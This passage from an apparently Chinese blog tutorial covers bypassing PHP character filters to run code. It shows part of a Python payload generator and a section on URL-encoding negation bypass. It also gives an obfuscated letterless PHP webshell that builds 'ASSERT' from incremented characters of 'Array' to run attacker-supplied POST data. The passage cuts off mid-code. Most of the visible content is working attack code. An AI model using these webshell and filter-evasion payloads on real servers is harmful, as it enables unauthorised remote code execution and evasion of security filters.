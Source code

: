 ```python
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602170233796.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602170239753.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# URL编码取反绕过
适用PHP版本：无限制

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602163350934.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602163356845.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602163534793.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602163540529.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 递增递减运算符绕过

数组（Array）的第一个字母就是大写A，而且第4个字母是小写a，也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母
在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602170700528.png#pic_center)

再取这个字符串的第一个字母，就可以获得`A`了
利用这个技巧，编写了如下webshell（因为PHP函数是大小写不敏感的，所以我们最终执行的是ASSERT($POST[ _ ])，无需获取小写a）

```php
<?php
$_=[]; 
$_=@"$_"; // $_='Array'; 
$_=$_['!'=='@']; // $_=$_[0]; 
$___=$_; // A 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__; // S 
$___.=$__; // S 
$__=$_; 
$__++;$__++;$__++;$__++; // E 
$___.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R 
$___.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; 
$____='_'; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P 
$____.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O 
$____.=$__; 
```